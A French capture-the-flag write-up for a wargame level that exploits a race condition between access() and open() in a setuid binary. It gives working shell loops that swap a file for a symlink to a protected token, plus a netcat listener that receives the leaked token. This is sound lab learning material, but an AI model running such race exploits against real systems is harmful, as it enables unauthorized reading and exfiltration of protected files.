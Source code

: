 ﻿```bash
$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

A nouveau, un fichier token mais cette fois ci pas lisible depuis notre utilisateur et un fichier avec le s-bit active.

```bash
$ ./level10
./level10 file host
        sends file to host if you have access to it
```

En regardant ce que fait le programme, on peut voir qu'il verifie si le fichier est accessible en lecture.
Si c'est le cas, il envoie le fichier a l'adresse IP fournie en argument sur le port 6969.

Malheureusement level10 n'a pas les droits pour lire le fichier token.

MAIS! Il existe une faille dans le programme, en etant assez rapide,
on peut faire en sorte que le programme lise le fichier token.

Explication du processus:
- On cree un fichier debile auquel level10 a acces dans /tmp
- Le programme execute la fonction access() sur le fichier debile et nous dit OK
- On remplace le fichier par un lien symbolique vers le fichier token
- Le programme execute la fonction open() sur le lien symbolique qui pointe desormais sur token
- Le ficher token est lu et envoye a l'adresse IP fournie en argument

```bash
// SHELL 1
$ while true; do ./level10 /tmp/ok localhost; done

// SHELL 2
$ while true; do rm -f /tmp/ok; touch /tmp/ok; rm -f /tmp/ok; ln -s /home/user/level10/token /tmp/ok; done

// SHELL 3
$ nc -lk 6969
...
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
...
```

On peut voir que le token est bien recu, et ainsi on peut se connecter au user flag10 et getflag :)
